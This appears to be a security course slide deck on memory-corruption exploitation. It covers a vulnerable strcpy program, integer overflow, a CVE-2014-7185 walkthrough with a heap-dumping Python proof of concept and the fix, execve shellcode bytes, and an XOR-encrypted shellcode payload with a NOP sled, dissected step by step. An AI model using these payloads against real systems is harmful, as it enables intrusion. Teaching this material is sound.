



class: center, middle

# Advanced Exploitation Techniques

---

# Agenda

1. Classic techniques
2. Stack-based BoF (with example)
3. Integer Overflow (with example)
4. Shellcoding example
5. Protection schemes
6. Bypassing protections

---

# Classic techniques

Classic exploitation techniques are commonly based on:

- **Buffer Overflows**
- **Integer Overflows**

to find an entry point to modify the normal program execution or to inject
custom shellcode.

---

background-image: url(http://imgur.com/download/lRIxVO8)

---

class: center, middle

## Buffer Overflow

> A buffer overflow occurs when data written to a buffer also
> *corrupts* data values in memory addresses adjacent to the destination
> buffer, due to *insufficient bounds checking*

---

class: center, middle

### Types



---

# Stack-based BoF [1/2 theory]



---

# Stack-based BoF [2/2 example]

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char const *argv[])
{
  char buffer[4];
  strcpy(buffer, argv[1]);
  printf("%s\n", "I'm a good guy");
  return 0;
}
```

```shellsession
# Compile (32bit, without stack protections)
gcc -m32 -fno-stack-protector -z execstack sbof.c -o sbof
# Works
./sbof deadbeef
# Crashes
strace ./sbof $(python -c "print('A'*64)")
```

*Segmentation Fault: programmer no.1 enemy, hacker no.1 friend :)*

???

## Questions

- What is `strace`?
- Even when it crashes, it prints `I'm a good guy`, why?

---

class: center, middle

# Integer Overflow

> An integer overflow occurs when an arithmetic operation attempts to create
> a numeric value that is *too large* to be represented within the available
> storage space



---

.left-column[
## Int Overflow in C
]

.right-column[
```c
#include <limits.h>

void main() {
int underflow = INT_MIN - 1;
int overflow  = INT_MAX + 1;
printf("%d\n", underflow);
printf("%d\n", overflow);
}
```
]

---

.left-column[
## Int Overflow in C
## Expected output
]

.right-column[
### Underflow:

```c
-2147483648 - 1 = -2147483649
```

### Overflow:

```c
2147483647 + 1 = 2147483648
```
]

---

.left-column[
## Int Overflow in C
## Expected output
## Actual output
]

.right-column[
### In theory:

*Undefined behaviour*.

### In practice:

- Undeflow:

```c
-2147483648 - 1 =  2147483647
```

- Overflow:

```c
2147483647 + 1 = -2147483648
```
]

---

class: center, middle

## Who cares?

.twitch-emote.large[WutFace]

---

## Integer Overflow in the real world

**CVE-2014-7185**

> **Python 2.7** could allow a remote attacker to execute arbitrary code on
> the system, caused by an integer overflow in `bufferobject.c`.
> 
> An attacker could exploit this vulnerability to execute arbitrary code on
> the system

*reported Sep 23, 2014*

---

class: center, middle

### It's just an arbitrary code execution

.twitch-emote.large[EleGiggle]

---

### CVE-2014-7185 [1/5 vulnerability]

The vulnerability is in buffer function in `bufferobject.c` file:

```c
static int
get_buf(PyBufferObject *self, void **ptr, Py_ssize_t *size,
    enum buffer_t buffer_type)
{
    if (self->b_base == NULL) {
        # ...
    }
    else {
        # ...
        if ((count = (*proc)(self->b_base, 0, ptr)) < 0)
            return 0;
        # ...
        *(char **)ptr = *(char **)ptr + offset;
        if (self->b_size == Py_END_OF_BUFFER)
            *size = count;
        else
            *size = self->b_size;
        if (offset + *size > count)
            *size = count - offset;
    }
    return 1;
}
```

Used by the built-in function: `buffer(..)`

---

### CVE-2014-7185 [2/5 analysis | 1/2]

#### Signature

```python
buffer(object[, offset[, size]])
```

#### Arguments

- **object** (*required*): The object argument must be an object that
  supports the buffer call interface
  (such as string, unicode, bytearray, mmap.mmap or array.array)
- **offset** (*optional*): Buffer slice offset; if omitted the buffer
  object will be a slice from the beginning of object
- **size** (*optional*): Length of the slice; if omitted the slice will
  extend to the end of object

---

### CVE-2014-7185 [2/5 analysis | 2/2]

#### Description

> The object argument must be an object that supports the buffer call
> interface (such as strings, arrays, and buffers).  
> A *new buffer object will be created* which *references the object argument*.  
> The buffer object will be a slice from the beginning of object
> (or from the specified offset).  
> The slice will extend to the end of object
> (or *will have a length given by the size argument*).

#### Notes

- Buffer function *allocates memory on heap*
- The `buffer(..)` function allows direct (read-only) access to an object's
  byte-oriented data *without needing to copy it first*.
  That can yield large performance gains when operating on large objects since
  it does not create a copy of an object when slicing

---

### CVE-2014-7185 [3/5 exploitation | 1/3]

#### What happens if we don't pass arguments?

The created buffer object has the same size of the referenced buffer.

#### What happens if we pass arguments?

- \\( \text{size} > \text{referenced buffer size} \\):
  no problem, *it's just a buffer slice*
- \\( \text{size} > \text{referenced buffer size} \\):
  the first part (until the overflow)
  will reference the memory area of the provided buffer,
  *the remaining part will reference the memory area outside the buffer bounds*
      - The remaining part leads to *buffer overflow* !!

##### To prevent this, the developer should make proper *bound checks*..

---

### CVE-2014-7185 [3/5 exploitation | 2/3]

#### Let's take a look at the bound checks

```c
if (offset + *size > count)
  // ...
```

---

### CVE-2014-7185 [3/5 exploitation | 2/3]

#### Let's take a look at the bound checks

```c
if (offset + *size > count)
  // ...
```

#### Do you see any difference?

```c
if (*size > count - offset)
  // ...
```

---

### CVE-2014-7185 [3/5 exploitation | 2/3]

#### Let's take a look at the bound checks

```c
if (offset + *size > count)
  // ...
```

#### Is there an Integer Overflow ?

##### .twitch-emote.small[DOOMGuy] brainstorming ..

---

### CVE-2014-7185 [3/5 exploitation | 2/3]

#### Let's take a look at the bounds check

```c
if (offset + *size > count)
  // ...
```

#### What if it goes in Integer Overflow ?

It *becomes negative* → *check is skipped*

.twitch-emote.large[BrokeBack]

---

### CVE-2014-7185 [3/5 exploitation | 3/3]

#### Exploiting this is ezpz:

```python
import sys
a = bytearray('foobar')
b = buffer(a, sys.maxsize, sys.maxsize)
print b[:8192]
```

In above exploit code, the maximum values in offset and size parameters
cause the *Integer Overflow* and *allows to dump the heap*

#### Can become an arbitrary code execution?

*Yes*, instead of dumping, we just need to *inject custom code*..

But this is a complex task..  
Not covered here..

---

### CVE-2014-7185 [4/5 bug fix]

```diff
...

diff --git a/Objects/bufferobject.c b/Objects/bufferobject.c
--- a/Objects/bufferobject.c
+++ b/Objects/bufferobject.c
@@ -88,7 +88,7 @@ get_buf(PyBufferObject *self, void **ptr
             *size = count;
         else
             *size = self->b_size;
-        if (offset + *size > count)
+        if (*size > count - offset)
             *size = count - offset;
     }
     return 1;

...
```

---

### CVE-2014-7185 [5/5 notes | 1/2]

- Buffer/Integer Overflows in 201x is real
    - See `CVE-2016-2324` and `CVE‑2016‑2315`:
        - *Remote code execution* through a *Buffer Overflow*
        - Both *Client* and *Server*
        - In *all Git versions before 2.7.1*, basically all machines not
          updated in the last months (2016)
    - *Don't trust people saying Buffer Overflow is not important anymore*,
      they are fools


- 99% percent of programs you're using are written in C/C++
    - *No memory protection*
- Modern languages that implement memory protection *may have bugs*..
    - Leading to the *same problems*
    - But much *more pervasive*: consider a bug in the JVM
      *affects (almost) all of the Java programs*

---

### CVE-2014-7185 [5/5 notes | 2/2]

#### Can memory unsafety be defeated ?

- It's not a language problem: programming languages can just provide an abstraction layer hiding (some-of) those problems
- It's not a kernel problem: OSes can just provide an abstraction layer hiding (some-of) those problems

*Don't trust people saying that kind of stuff*

##### It's (partially) an architecture problem

Partial solution: [Harvard Architecture](https://en.wikipedia.org/wiki/Harvard_architecture)

- Strict separation between *code* and *data*
- A Harvard architecture machine has *distinct code and data address spaces*
- For example instruction address zero is not the same as data address zero

---

class: center, middle

# Shellcoding


---

## Shellcoding [1/6 introduction]

### What is a shellcode?

Very simple (naive) shellcode: `execve /bin//sh`

Smth like: `31 c9 f7 e1 b0 0b 51 68 2f 2f 73 68 68 2f 62 69 6e 89 e3 cd 80` (21 Bytes)

### Code as data

- Data injection → Code injection
- Difference between "normal data" and "code":
    - `W^X`
    - *memory segments*
    - But code *can also be stored as "normal data"*,
      e.g. exploiting a buffer overflow

---

class: center, middle

## Shellcoding [2/6 the problem]

Naive (static) shellcode is *easy to fingerprint*

.twitch-emote.large[NotLikeThis]

Is there some sort of *dynamic* shellcode?

---

## Shellcoding [3/6 analysis]

```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
16:  eb 05                  jmp    0x1d
18:  e8 e7 ff ff ff         call   0x4
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```

*It's strange: there isn't a shellcode, I don't see smth like `/bin/sh`, wtf ???*

???

## Initial notes

- What I will say *depends on the architecture*, in this case: `x86`
    - `x86_64` (commonly used in modern PCs) is similar but with small
      differences, e.g. first argument is not pushed into the stack
    - `arm` (commonly used in smartphones and embedded devices) is a lot
      different
- If you have doubts, take a look at the Intel Developer Manual

---

## Shellcoding [4/6 analysis | 1/2 flow-control]

.left-column[
### .twitch-emote.small[DOOMGuy] brainstorming ..

- What are the **macro-steps**?
]
.right-column[
```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
16:  eb 05                  jmp    0x1d
18:  e8 e7 ff ff ff         call   0x4
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```
]

---

## Shellcoding [4/6 analysis | 2/2 flow-control]

 1: Initialize
    --> 2: Jump to the decryptor
    --> 3: Perform decryption
    --> 4: Jump to the decrypted shellcode
    --> 5: Execute the shellcode
    --> (*)
">

---

## Shellcoding [4/6 analysis | 1/6 initialization]

.left-column[
### .twitch-emote.small[DOOMGuy] brainstorming ..

- Where is the initialization step?
- What does it do?
]
.right-column[
```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
16:  eb 05                  jmp    0x1d
18:  e8 e7 ff ff ff         call   0x4
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```
]

---

## Shellcoding [4/6 analysis | 2/6 initialization]

```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl

18:  e8 e7 ff ff ff         call   0x4
```

### Let's try to understand what these instructions do..

---

## Shellcoding [4/6 analysis | 3/6 initialization]

```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
```

- `29 c9`: *Reset* register `ECX` to `0` and (as side effect) set `ZF` to `1`
- `74 14` ↔ `JE rel8`: if previous comparision was *equal*
  (\\( \text{ZF} = 0 \\)), *jump* `rel8` bytes below:
    - `rel8` is a *signed offset* relative to the current `EIP`
    -  In this case \\( rel8 = 14h \\)
    $$ \text{EIP} + \text{offset} = 4h + 14h = 4 + 20 = 24 = 18h $$

---

## Shellcoding [4/6 analysis | 4/6 initialization]

```objdump-c
18:  e8 e7 ff ff ff         call   0x4
```

- `e8 e7 ff ff ff`: Call near to relative offset `0xffffffe7` (*two's complement*):
    ```
    INPUT:      1111 .... 1111 1110 0111 ← 0xffffffe7
    NOT:        0000 .... 0000 0001 1000 +
    ADD ONE:                           1 =
    RESULT:     0000 .... 0000 0001 1001 → 0x19
    ```
    - `0x19` bytes *above*, relative to the *next* address `0x1d`: \\( 1dh - 19h = 4 \\)

- `EIP` is pushed in the stack → `ESP` points to the instruction after `call`

.twitch-emote.small[Kreygasm]
*We've just learned a common technique, a sort of **Design Pattern***:

- **Problem**: What is the *runtime* absolute address of an instruction ?
- **Solution**:
  ```
  JMP to CALL
  CALL back to JMP
  ```
  Now `EIP` of the instruction next to `CALL` *is in the head of the stack*

---

## Shellcoding [4/6 analysis | 5/6 initialization]

```objdump-c
4:   5e                     pop    %esi
```

- Put in the register `ESI` (general-purpose register) the
  *starting address of the shellcode*

.footnote[
BTW, I can say that because *I already know the solution*...  
Normally *you don't know that the shellcode is right after the `CALL` instruction*
]

---

## Shellcoding [4/6 analysis | 6/6 initialization]

```objdump-c
5:   b1 14                  mov    $0x14,%cl
```

- Store in `CL` (lower part of `ECX`) the *length of the shellcode*

In fact, the encrypted shellcode seems to be:

```objdump-c
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```

 .twitch-emote.small[4Head]
*Eheheh, you didn't think it was a shellcode, right ?*

.footnote[
BTW, I can say that because *I already know the solution*... Normally *you don't know*:  
1. That *\\( 14 \\) is the shellcode length*
2. *Where is the shellcode*
3. *How the encrypted shellcode looks like*
]

---

## Shellcoding [4/6 analysis | 1/4 decryptor]

### Decryptor overview

The following part of the binary is the *decryptor*:

```objdump-c
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
```

---

## Shellcoding [4/6 analysis | 2/4 decryptor]

### Decryption loop

```objdump-c
14:  e2 f1                  loop   0x7
```

Taking a look at the [Intel Developer Manual](http://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-manual-325462.pdf):

`e2 cb` → `LOOP rel8`:

1. Decrement `count`
2. Jump short if \\( \text{count} \neq 0 \\)

- `ECX` is the initial value of the counter
- Each time the `LOOP` instruction is executed, the count register is
  decremented, then checked for `0`:
    - If \\( \text{count} \neq 0 \\): the loop is *terminated* and program
      execution continues with the instruction following the `LOOP`
      instruction
    - If \\( \text{count} = 0 \\): a *near jump* is performed to the
      destination operand (considered as a *signed offset* relative to the
      current `EIP`), which is presumably the instruction at the beginning
      of the loop

---

## Shellcoding [4/6 analysis | 3/4 decryptor]

### Decryption step

TODO

---

## Shellcoding [4/6 analysis | 4/4 decryptor]

### Decryption algorithm

TODO

---

## Shellcoding [4/6 analysis | shellcode]

### Encrypted shellcode

The following part of the binary is the *shellcode*:

```objdump-c
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```

Each instruction will be:
1. *Decrypted* by the decryptor
2. *Replaced* with the decrypted bytes.

---

## Shellcoding [5/6 structure]

```python
# 1. NOP sledge
"\x90" * 1000 + # <- NOP sledge size is 1000
# 2. Shellcode Decrypter
"\x29\xc9\x74\x14\x5e\xb1" +
"\x14" + # <- shellcode length
"\x46\x8b\x06\x83\xe8" +
"\x09" + # <- ADD key
"\x34" +
"\x9f" + # <- XOR key
"\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8" +
"\xe7\xff\xff\xff" +
# 3. Crypted Shellcode
"\x31\x70\xaa\x92\xd7\x2d\xce\xaf\xe1\xa8" +
"\xcc\x8d\xa8\xe1\xdb\x9d\xa1\x81\xfe\xba" +
"\xdb"
```

.footnote[shellcodes database @ [shell-storm.org](http://shell-storm.org)]

---

## Shellcoding [6/6 execution]

Let's take a look at how we can develop / test / execute shellcodes:
[shellcode.c](https://github.com/alem0lars/adv_exp_tec/blob/gh-pages/resources/shellcode.c)

---

## Protection schemes

- **Non-Executable Stack** (**NES**): `NX` bit.
- **Randomization**:
  - **Stack Canaries**:
    Place a randomly chosen small integer at program start and check it won't
    be overwritten.
  - **ASLR**

---

## Bypassing protections

We need to bypass NES / ASLR / Stack Canaries..

---

## Bypass NES

- **RTL**: Return to library
- **ROP**: Return-Oriented Programming

---

## Bypass stack canaries

- Biggest flaw: they *only* protect stack

- Works well on Linux
- On Windows they can be usually bypassed with **SEH**
  (**Structured Exception Handler**) techniques

- Cannot prevent:
  - *Heap overflow*
  - *Format string* vulnerabilities
  - *Double free*

- *Weak implementations* (non-random) make the cookie easy to guess
- Even if there are strong implementations, attacks to *reduce system entropy*
  make the cookie easy to guess
